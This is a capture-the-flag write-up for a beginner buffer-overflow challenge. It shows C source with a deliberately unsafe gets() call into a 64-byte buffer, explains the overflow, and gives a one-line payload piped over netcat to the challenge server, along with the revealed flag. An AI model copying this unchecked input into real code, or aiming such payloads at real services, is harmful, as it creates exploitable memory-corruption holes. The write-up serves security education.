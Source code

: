 ## bof 
> What's a buffer? Hmmmmmm... Is my buffer too small?
We're given both the binary and the source, so we take a look at the source first to figure out what's going on.
```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[64];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("\n\n\n\nMinecraftcito\nWhere you need to survive all day and all night\nCraft a diamond sword so you can fight\nPlace a torch in a cave to produce some light\nMinecraftcito\n");
  puts("What song do you want me to sing next?\n");
  
  gets(name);
  printf("Sorry, I don't know how to sing that...\n");
  if(code != 0) {
    system("cat flag.txt");
     printf("\n\n\n");
  }
}

```

This is a simple buffer overflow. `name` is stored as a char array with length 64. The gets() method assigns user input to name without sanitizing the input to check if it's valid. This means that if we type in something that's longer than the length of 64, it will start overwriting parts of the memory. In this case, since the program checks if the value of `code` is not equal to 0, we only need to rewrite the value of `code`. Putting in at least 73 `a`'s should be sufficient (64 for the buffer, 8 more to overwrite `code` plus 1), but you can put in anything above that to trigger the flag. 

testing:
```
$ chmod +x bof
$ python -c "print 'A'*80" > temp
$ ./bof < temp
```


exploit:
```
$ python -c "print 'A'*80" | nc imaginary.ml 10002

Flag: `flag{buff3r_0v3rfl0w_1s_d4ng3r0uS}`